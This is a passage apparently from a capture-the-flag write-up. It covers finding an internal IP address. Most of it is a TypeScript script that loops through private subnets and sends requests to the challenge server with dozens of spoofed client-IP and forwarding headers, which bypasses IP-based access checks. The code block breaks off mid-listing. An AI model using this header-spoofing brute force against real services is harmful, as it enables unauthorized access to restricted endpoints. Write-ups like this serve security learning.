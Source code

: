 ### Finding the IP

According to [this](https://openvpn.net/community-resources/numbering-private-subnets/) nice OpenVPN community article, we know of three potential subnets to check. As this CTF is meant to be "easy", we are going to boldly assume we should only check the first and most obvious subnet.

```ts
console.clear();

const url = "http://arg.memetrolls.net:2507/hacker/docs";

const subnets = ["10.0.0.", "172.16.0.", "192.168.0."];
for (const subnet of subnets) {
    for (let i = 1; i < 256; i++) {
        const ip = subnet + i;
        fetch(url, {
            method: "GET",
            headers: {
                "Connection": "keep-alive",
                "Host": "arg.memetrolls.net:2507",
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
                "Accept-Encoding": "gzip, deflate",
                "Accept-Language": "en-US,en;q=0.9",
                "Base-Url": ip,
                "Client-IP": ip,
                "Forwarded-For": ip,
                "Forwarded-For-Ip": ip,
                "Http-Url": ip,
                "nullOrigin": ip,
                "Origin": ip,
                "Proxy-Host": ip,
                "Proxy-Url": ip,
                "Real-Ip": ip,
                "Redirect": ip,
                "Referer": ip,
                "Referrer": ip,
                "Refferer": ip,
                "Request-Uri": ip,
                "Uri": ip,
                "Url": ip,
                "X-Client-IP": ip,
                "X-Custom-IP-Authorization": ip,
                "X-Forwarded": ip,
                "X-Forwarded-By": ip,
                "X-Forwarded-For": ip,
                "X-Forwarded-For-Original": ip,
                "X-Forwarded-Host": ip,
                "X-Forwarded-Port": ip,
                "X-Forwarded-Scheme": ip,
                "X-Forwarded-Server": ip,
                "X-Forwarder-For": ip,
                "X-Forward-For": ip,
                "X-Host": ip,
                "X-Http-Destinationurl": ip,
                "X-Http-Host-Override": ip,
                "X-Original-Remote-Addr": ip,
                "X-Original-Url": ip,
                "X-Originating-IP": ip,
                "X-Proxy-Url": ip,
                "X-Real-Ip": ip,
                "X-Remote-Addr": ip,
                "X-Remote-IP": ip,
                "X-Rewrite-Url": ip,
```